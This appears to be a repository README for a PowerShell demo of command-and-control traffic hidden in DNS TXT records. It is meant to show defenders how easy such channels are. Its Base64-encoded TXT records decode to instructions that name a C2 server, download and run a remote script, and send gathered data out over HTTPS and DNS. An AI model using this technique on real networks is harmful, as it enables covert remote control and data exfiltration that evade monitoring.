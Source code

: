# DNS C2 Demo

This set of scripts will help you to demostrate how easy it is to run C2-traffic thru DNS

The script ***demo-create-txt-records.ps1*** creates Base64 encoded records that can be used as TXT-entries

Something like this:

```
;QUESTION
c2demo.ronnkvist.nu. IN TXT
;ANSWER
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzszO1NldDtjMnNlcnZlci5zb21laGF4eG9yLnh5eg=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsxO0dldDtodHRwczovL3Jhdy5naXRodWJ1c2VyY29udGVudC5jb20vcmlyb2ZhbC9ETlMtQzItRGVtby9tYWluL2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzsyO1BTO2RlbW8tcmVtb3RlLXNjcmlwdC5wczE="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs0O2h0dHBzO2RlbW8tcHVzaC1vdXQudHh0"
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzs1O0ROUztkZW1vLXB1c2gtb3V0LnR4dA=="
c2demo.ronnkvist.nu. 3600 IN TXT "cmlybzswO1dyaXRlO1RpbWUgdG8gZG8gc29tZSBDMi1zdHVmZiA7KQ=="
```

Then you have the script ***demo-c2-client.ps1*** that you can run on a Windows client with Powershell and access to a DNS.

The script will use TXT-records to find and download another script, execute it and show how a simple DNS-query would send out the information gathered.

### Example output from Demo C2 Client
![Example Output](./demo-c2-client-output.png?raw=true)
